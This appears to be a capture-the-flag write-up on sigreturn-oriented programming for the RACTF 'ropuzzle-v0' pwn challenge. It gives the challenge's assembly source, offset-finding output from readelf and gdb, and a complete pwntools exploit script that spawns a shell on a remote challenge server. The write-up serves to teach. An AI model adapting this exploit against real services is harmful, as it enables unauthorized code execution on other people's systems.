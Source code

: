 # SigReturn Exploit - Thanks to @Legacyy for this explanation!  
Legacyy's blog: https://www.legacyy.xyz/  

### Resources:
https://en.wikipedia.org/wiki/Sigreturn-oriented_programming  
https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit  
https://bananamafia.dev/post/srop/  

### nasm file
Challenge taken from https://digitaloverdose.ractf.co.uk/campaign/pwn/ropuzzle-v0. Insanely fun.

```asm
section .text
global _start

section .data
msg db '/bin/sh' <- symbol msg is a defined byte that is set as `/bin/sh`

section .text

_start:
    push rbp
    mov rbp, rsp
    call get_input
    call exit

get_input:
    push rbp
    mov rbp, rsp
    mov rax, 0x0
    mov rdi, 0x0
    mov rsi, rsp
    mov rdx, 4096
    call syscall_me
    leave
    ret

syscall_me:
    syscall
    ret

exit:
    mov rax, 0x3c
    mov rdi, 0x0
    syscall
    call exit

gadget:
    pop rax
    ret

```

### retrieving offsets for `/bin/sh`

```
readelf -s ./main

Symbol table '.symtab' contains 11 entries:
   Num:    Value          Size Type    Bind   Vis      Ndx Name
     0: 0000000000000000     0 NOTYPE  LOCAL  DEFAULT  UND 
     1: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS main.nasm
     2: 0000000000402000     0 NOTYPE  LOCAL  DEFAULT    2 msg <- offset for msg is 0x402000
     3: 000000000040100e     0 NOTYPE  LOCAL  DEFAULT    1 get_input
     4: 000000000040102b     0 NOTYPE  LOCAL  DEFAULT    1 syscall_me <- offset for syscall_me is 0x40102b
     5: 000000000040102e     0 NOTYPE  LOCAL  DEFAULT    1 exit
     6: 000000000040103f     0 NOTYPE  LOCAL  DEFAULT    1 gadget <- offset for gadget is 0x40103f
     7: 0000000000401000     0 NOTYPE  GLOBAL DEFAULT    1 _start
     8: 0000000000402007     0 NOTYPE  GLOBAL DEFAULT    2 __bss_start
     9: 0000000000402007     0 NOTYPE  GLOBAL DEFAULT    2 _edata
    10: 0000000000402008     0 NOTYPE  GLOBAL DEFAULT    2 _end

```

### debugging the binary using gdb

```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _start
0x000000000040100e  get_input
0x000000000040102b  syscall_me
0x000000000040102e  exit
0x000000000040103f  gadget
gdb-peda$ disas get_input
Dump of assembler code for function get_input:
   0x000000000040100e <+0>:     push   rbp
   0x000000000040100f <+1>:     mov    rbp,rsp
   0x0000000000401012 <+4>:     mov    eax,0x0
   0x0000000000401017 <+9>:     mov    edi,0x0
   0x000000000040101c <+14>:    mov    rsi,rsp
   0x000000000040101f <+17>:    mov    edx,0x1000
   0x0000000000401024 <+22>:    call   0x40102b <syscall_me>
   0x0000000000401029 <+27>:    leave  
   0x000000000040102a <+28>:    ret    
End of assembler dump.
```

### SigReturn Exploit Script
```py
from pwn import *

context.arch = "amd64"

#p = process("./main")
p = remote("193.57.159.27", 65277)

syscall = 0x40102b # syscall is the offset for syscall_me function
gadget = 0x40103f # pop rax ; ret; This was retrieved from both the nasm file and or ROPGadget --binary ./main
binsh = 0x402000 # `/bin/sh` offset retrieved by running readelf -s ./main

frame = SigreturnFrame(kernel="amd64")
frame.rax = 0x3b # 59 => execve => runs a file you specify
frame.rdi = binsh # calls the specified file `/bin/sh`
frame.rsi = 0 # no arguments called for bin sh
frame.rdx = 0 # no environmental variables
frame.rsp = 0 # nothing specified for the stack pointer
frame.rip = syscall


buf = b"A"*8
buf += p64(gadget) + p64(0xf) # rax executes sigreturn which is 0xf
buf += p64(syscall) # call syscall_me
buf += bytes(frame) # call SigreturnFrame


p.send(buf)
p.interactive()
```
